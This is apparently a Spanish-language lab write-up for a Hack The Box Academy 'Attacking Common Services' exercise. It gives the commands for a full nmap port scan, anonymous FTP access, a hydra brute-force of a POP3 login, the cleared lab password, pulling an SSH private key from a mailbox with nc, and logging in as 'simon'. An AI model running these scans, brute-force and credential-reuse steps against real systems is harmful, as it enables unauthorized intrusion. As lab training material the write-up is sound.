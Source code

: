 # Attacking Common Services - Medium

## Enunciado
The second server is an internal server (within the inlanefreight.htb domain) that manages and stores emails and files and serves as a backup of some of the company's processes. From internal conversations, we heard that this is used relatively rarely and, in most cases, has only been used for testing purposes so far.

## Solución

### nmap
Encontramos los siguientes puertos abiertos: 
```bash
nmap -p- -v --open -sS --min-rate 5000 -Pn -n -oG openPorts_10.129.255.116 -oN openPorts_10.129.255.116.txt 10.129.255.116
```
Encontrando los siguientes puertos abiertos
```txt
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
110/tcp   open  pop3
995/tcp   open  pop3s
2121/tcp  open  ccproxy-ftp
30021/tcp open  unknown
```

### Puerto 30021

- Es un servidor ftp. Nos permite conectamos como usuario `anonymous` 

    ```bash
    ftp anonymous@$target -P 30021
    ```

- Encontrando una carpeta llamada `simon` cuyo contenido, `notes.txt`, parecen ser credenciales. 

### Puerto 110 - pop3

- Aplicamos fuerza bruta con el usuario simon y el arhivo obtenido: 

    ```bash
    hydra -l 'simon' -P mynotes.txt -f $target pop3
    ```

    obteniendo credenciales válidas: `simon:8Ns8j1b!23hs4921smHzwn`

- Nos conectamos vía telnet para ver el contenido del correo

    ```bash
    telnet $target 110                        
    #Una vez conectado
    USER simon
    +OK
    PASS 8Ns8j1b!23hs4921smHzwn
    +OK Logged in.
    LIST
    +OK 1 messages:
    1 1630
    .
    RETR 1
    ```

    obteniendo una clave privada. Automatizamos el proceso para guardar el contenido a un archivo llamado `correo.txt`

    ```bash
    { echo "USER simon"; echo 'PASS 8Ns8j1b!23hs4921smHzwn'; echo "RETR 1"; echo "QUIT";} | nc $target 110 > correo1.txt    
    ```

    `telnet` en este caso no funciona, ya que es interactivo por naturaleza  y maneja los datos de forma distinta
    
### Conexión SSH - Puerto 22

- Guardamos la clave privada (eliminamos saltos de línea y espacios en blanco innecesarios)

    ```bash
    cat correo1.txt | grep -i private | tr -d ' \n' > id_rsa     
    ```

- Le damos los permisos necesarios, comprobamos que la llave está correctamente formateada

    ```bash
     ssh-keygen -lf id_rsaOk
    ```
     y nos conectamos por ssh como usuario `simon`

    ```bash
    ssh -i id_rsaOk simon@$target
    ```

    obteniendo la flag


